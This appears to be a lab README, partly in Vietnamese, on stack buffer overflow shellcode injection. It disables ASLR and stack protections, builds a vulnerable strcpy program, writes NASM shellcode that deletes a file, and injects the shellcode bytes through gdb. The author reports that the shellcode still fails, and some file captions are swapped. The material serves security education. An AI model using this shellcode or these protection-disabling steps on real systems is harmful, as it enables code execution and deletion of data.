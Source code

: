 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code: <br>
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
<br>

**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

<br>

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>

`nasm -g -f elf file_del.asm`
`ld -m elf_i386 -o file_del file_del.o`

<br>

![compile vuln](./imgs/file_del1.png)

<br>

Run this command to get shellcode from `file_del`:

<br>

`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

<br>

![shellcode](./imgs/file_del2.png)

<br>

Use `gdb` to run program:

<br>

`gdb vuln.out -q`

<br>

![gdb](./imgs/file_del3.png)

<br>

break at 2 points: <br>
`0x08048441` <br>
`0x0804846b` <br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")` <br>

![](./imgs/file_del4.png)

<br> Continue: `gdb-peda$ c` <br>

![](./imgs/file_del5.png)

<br> `x/80xb $esp` to check stack <br>

We got some problem in shellcode. It's wrong when running program.
